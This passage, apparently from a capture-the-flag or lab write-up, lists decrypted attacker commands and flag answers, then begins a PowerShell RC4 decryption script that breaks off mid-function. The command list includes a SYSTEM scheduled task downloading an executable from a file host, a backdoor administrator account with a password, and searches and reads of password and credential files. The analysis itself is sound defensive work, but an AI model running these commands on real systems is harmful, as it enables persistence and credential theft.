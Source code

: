 ### Final Decrypted Commands
```
whoami /priv
tasklist /v
wmic qfe get Caption,Description,HotFixID,InstalledOn
schtasks /create /tn Synchronization /tr "powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://www.mediafire.com/view/wlq9mlfrl0nlcuk/rakalam.exe/file -OutFile C:\Temp\rakalam.exe" /sc minute /mo 1 /ru SYSTEM
net user devsupport1 P@ssw0rd /add
net localgroup Administrators devsupport1 /add (twice)
reg query HKLM /f "password" /t REG_SZ /s
dir C:\ /s /b | findstr "password" (twice)
more "C:\Users\dev-support\AppData\Local\BraveSoftware\Brave-Browser\User Data\ZxcvbnData\3\passwords.txt"
more C:\backups\credentials.txt
```

From these, we obtained:

**Flag Q5 Answer:** The scheduled task name is `Synchronization`.

**Flag Q6 Answer:** The leaked API key was extracted from the contents of C:\backups\credentials.txt
(Insert the API key as observed in the file.)

### Complete PowerShell RC4 Decryption Script

```powershell
# Define the 256-byte RC4 key (as used in the .NET code)
$rc4Key = @(
    168,115,174,213,168,222,72,36,91,209,242,128,69,99,195,164,238,182,67,92,7,121,164,86,121,10,93,4,140,111,248,44,
    30,94,48,54,45,100,184,54,28,82,201,188,203,150,123,163,229,138,177,51,164,232,86,154,179,143,144,22,134,12,40,243,
    55,2,73,103,99,243,236,119,9,120,247,25,132,137,67,66,111,240,108,86,85,63,44,49,241,6,3,170,131,150,53,49,126,72,
    60,36,144,248,55,10,241,208,163,217,49,154,206,227,25,99,18,144,134,169,237,100,117,22,11,150,157,230,173,38,72,99,
    129,30,220,112,226,56,16,114,133,22,96,1,90,72,162,38,143,186,35,142,128,234,196,239,134,178,205,229,121,225,246,232,
    205,236,254,152,145,98,126,29,217,74,177,142,19,190,182,151,233,157,76,74,104,155,79,115,5,18,204,65,254,204,118,71,
    92,33,58,112,206,151,103,179,24,164,219,98,81,6,241,100,228,190,96,140,128,1,161,246,236,25,62,100,87,145,185,45,61,
    143,52,8,227,32,233,37,183,101,89,24,125,203,227,9,146,156,208,206,194,134,194,23,233,100,38,158,58,159
)

# RC4 decryption function implementing the key-scheduling algorithm (KSA) and PRGA.
function RC4-Decryption {
    param (
        [byte[]]$key,
        [byte[]]$data
    )

    # Initialize the state vector S (0..255)
    $S = 0..255

    # Key-Scheduling Algorithm (KSA)
    $j = 0
    for ($i = 0; $i -lt 256; $i++) {
        $j = ($j + $S[$i] + $key[$i % $key.Length]) % 256
        # Swap S[i] and S[j]
        $temp = $S[$i]
        $S[$i] = $S[$j]
```